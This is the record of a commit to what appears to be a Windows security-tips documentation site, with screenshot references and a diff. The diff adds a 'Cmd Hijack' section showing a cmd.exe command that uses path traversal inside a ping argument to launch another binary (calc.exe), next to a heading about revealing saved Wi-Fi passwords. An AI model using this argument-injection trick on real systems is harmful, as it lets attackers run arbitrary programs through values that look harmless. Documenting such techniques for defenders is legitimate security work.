

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/windows.md, in a window 1280 px wide and 900 px high, scrolled down 5183 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add cmd hijack from Julian Horoszkiewicz

````diff
--- a/docs/windows.md
+++ b/docs/windows.md
@@ -230,6 +230,19 @@ public class HelloWorld {
 }
 ```
 
+### Cmd Hijack
+
+You can confuse the `cmd.exe` binary with a directory traversal:
+
+```bash
+cmd.exe /c "ping 127.0.0.1/../../../../../../../../../../windows/system32/calc.exe"
+```
+
+Using this, you can hijack an argument such as a IP address in the ping call to
+execute an other binary.
+[Julian Horoszkiewicz explains the details on his blog](https://hackingiscool.pl/cmdhijack-command-argument-confusion-with-path-traversal-in-cmd-exe/)
+
+
 ### List Wifi networks and password
 ```bash
 $ netsh wlan show profile
````
